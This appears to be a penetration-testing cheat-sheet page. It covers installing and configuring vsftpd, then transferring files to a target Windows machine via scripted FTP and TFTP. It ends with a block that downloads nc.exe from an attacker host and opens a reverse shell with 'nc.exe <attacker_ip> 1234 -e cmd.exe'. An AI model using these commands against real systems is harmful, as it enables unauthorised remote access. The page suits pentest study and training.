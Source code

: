 !!! info ""

    ### vsftpd

    #### Installing vsftpd

    ```bash
    sudo apt-get install vsftpd
    ```

    #### Update config to writable

    ```bash
    sudo nano /etc/vsftpd.conf
    ```

    locate `write_enable=YES` and remove the `#` in front of it and save the file changes.

    #### Restart vsftpd

    ```bash
    sudo systemctl restart vsftpd
    ```

    Now you can FTP and do what you need to do.

    #### purging vsftpd

    ```bash
    sudo apt purge vsftpd
    ```


!!! info ""

    #### another way

    ##### Set up a ftp downloading script on the target machine

    ```bash
    echo open IP 21 > ftp.txt
    echo USER acknak>> ftp.txt
    echo jLQRZy4gyLhmMqz2whTw>> ftp.txt
    echo ftp >> ftp.txt
    echo bin >> ftp.txt
    echo GET wget.exe >> ftp.txt
    echo bye >> ftp.txt
    ```

    ##### Download the prepared file

    ```bash
    ftp -v -n -s:ftp.txt
    ```

    ##### Start tftp server on Kali

    ```bash
    aftpd start
    ```

    ##### Transfer files from Kali to Windows (from windows terminal)

    ```bash
    tftp -I IPADDRESS GET nameoffile.exe
    ```

    ##### You can have a shell using this

    ```bash
    echo open <attacker_ip> 21> ftp.txt
    echo USER offsec>> ftp.txt
    echo ftp>> ftp.txt
    echo bin >> ftp.txt
    echo GET nc.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp -v -n -s:ftp.txt
    nc.exe <attacker_ip> 1234 -e cmd.exe
    ```
